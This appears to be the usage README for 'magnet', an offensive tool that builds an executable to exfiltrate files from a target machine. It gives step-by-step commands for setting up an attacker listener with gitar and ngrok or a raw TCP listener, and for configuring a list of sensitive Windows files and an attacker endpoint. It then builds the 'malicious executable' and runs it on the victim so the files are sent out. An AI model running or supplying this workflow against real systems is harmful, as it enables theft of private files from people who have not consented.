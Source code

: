 # Example

Below is a complete example of `magnet` usage

## Send trough HTTP
### Pre-requisites
* [`gitar`](https://github.com/ariary/gitar) but you could use the HTTP server of your choice, as long as file upload is possible
* [`ngrok`](https://ngrok.com/)
* [`lobfuscator`](https://github.com/ariary/magnet/blob/main/README.md#build-lobfuscator)
* Clone `magnet` repository and go inside it

Our target run a windows device

### 1. Set up attacker listener

Using 
```shell
## Launch HTTP Upload server
gitar -e 127.0.0.1
## Expose the server using
ngrok http 9237 #copy ngrok endpoint
```

### 2. Set environment variables
```shell
export TARGET_OS=windows
export FILES=samples/windows_juicy_files.txt
export ENDPOINT=[NGROK_HTTPS_ENDPOINT]/[GITAR_RANDOM_PATH]/push
export KEY=thisismytestkey
export METHOD=http
```

### 3. Build malicious executable
```shell
./build.sh $TARGET_OS $FILES $ENDPOINT $KEY $METHOD
#build magnet.exe
```

### 4. Watch the magic happen

Transfer the executable on windows machine, execute it and observe:
```cmd
.\magnet.exe
```

On gitar listener you should receive the files


## Send trough raw TCP

### 1. Set up attacker listener

If you are waiting 3 files:
```shell
./examples/listen_tcp.sh [PORT] 3
```
### 2. Set environment variables
```shell
...
export ENDPOINT=[IP:PORT]
...
export METHOD=tcp
```

### 3. Build and exec

Build:
```shell
./build.sh $TARGET_OS $FILES $ENDPOINT $KEY $METHOD
```

And exec on target:
```cmd
.\magnet.exe
```

***Notes:*** the filename on attacker machine won't reflect the actual filename on target

